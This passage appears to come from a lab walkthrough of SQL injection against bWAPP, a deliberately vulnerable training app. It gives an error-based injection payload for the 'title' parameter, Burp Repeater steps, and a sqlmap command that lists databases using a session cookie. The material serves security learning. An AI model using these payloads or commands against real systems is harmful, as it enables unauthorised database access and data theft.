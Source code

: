 - In BurpSuite, send the request to Repeater
  - Copy the first payload from SQLMap and paste it as part of the `title` parameter

```bash
hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
```

![SQL syntax error](.gitbook/assets/image-20230504192903226.png)

- Use `sqlmap` to get a list of tables for the `bWAPP` database

```bash
# List databases
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
```

![SQLMap Databases](.gitbook/assets/image-20230504194044253.png)
